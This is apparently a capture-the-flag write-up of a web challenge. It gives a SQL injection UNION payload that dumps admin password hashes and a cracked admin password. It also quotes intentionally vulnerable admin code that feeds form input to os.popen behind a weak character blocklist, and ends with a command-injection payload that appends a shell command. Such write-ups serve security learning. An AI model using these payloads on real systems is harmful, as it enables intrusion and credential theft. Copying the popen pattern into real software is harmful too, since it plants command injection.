

## Writeup



Haven't found nothing interesting through files: secret key inside the challenge is changed so no session hijacking.
But there is a raw sql query with string formatting inside `search` view.

So we can abuse it using `%' UNION ALL SELECT id, password as title, username as content, email as author, now() as created_at from users where username like '` string as a search string. We get admin password m5 hash which we can easily decrypt using john or similar online tools to `no1trust` and pairing it together with `admin` user we get to admin panel.

Inside an admin panel there is a `Rebuild Database` command which has some validation (code below) but we still can change it.

```
# app/routes/admin.py
DEFAULT_COMMAND = "echo 'Rebuilding database...' && /entrypoint.sh"

DISALLOWED_CHARS = r"[&| ><$\\]"


@admin_blueprint.route("/admin", methods=["GET", "POST"])
def admin_panel():
        ...
        command = request.form.get("command", "").strip()

        if not command.startswith(DEFAULT_COMMAND):
            error_message = "Invalid command: does not start with the default operation."
        elif re.search(DISALLOWED_CHARS, command[len(DEFAULT_COMMAND):]):
            error_message = "Invalid command: contains disallowed characters."
        else:
            try:
                result = os.popen(command).read()
                config_message = f"Command executed successfully:\n{result}"
            except Exception as e:
                error_message = f"An error occurred: {str(e)}"
        ...

Command with flag capture
```
echo 'Rebuilding database...' && /entrypoint.sh; cat flag.txt
``
